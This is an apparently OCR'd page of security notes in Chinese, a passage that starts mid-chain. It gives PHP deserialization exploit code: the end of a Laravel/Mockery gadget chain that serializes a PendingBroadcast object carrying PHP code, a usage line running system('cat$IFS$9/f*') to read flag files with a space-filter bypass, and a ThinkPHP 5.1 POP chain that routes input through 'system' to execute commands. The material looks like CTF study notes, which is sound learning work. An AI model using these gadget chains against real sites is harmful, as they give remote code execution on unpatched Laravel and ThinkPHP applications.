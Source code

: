```php

    }
}
namespace Mockery\Generator{
    class MockDefinition
    {
        protected $config;
        protected $code;
        public function __construct()
        {
            $this->code="<?php phpinfo();exit()?>"; //此处是PHP代码
            $this->config=new MockConfiguration();
        }
    }
    class MockConfiguration
    {
        protected $name="feng";
    }
}

namespace{

    use Illuminate\Broadcasting\PendingBroadcast;

    echo urlencode(serialize(new PendingBroadcast()));
}


```

```
用法 php index.php system(‘cat$IFS$9/f*’);
```



#### Thinkphp5.1反序列化漏洞

```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["lin"=>["calc.exe","calc"]];
        $this->data = ["lin"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',  
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>'lin'];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}


```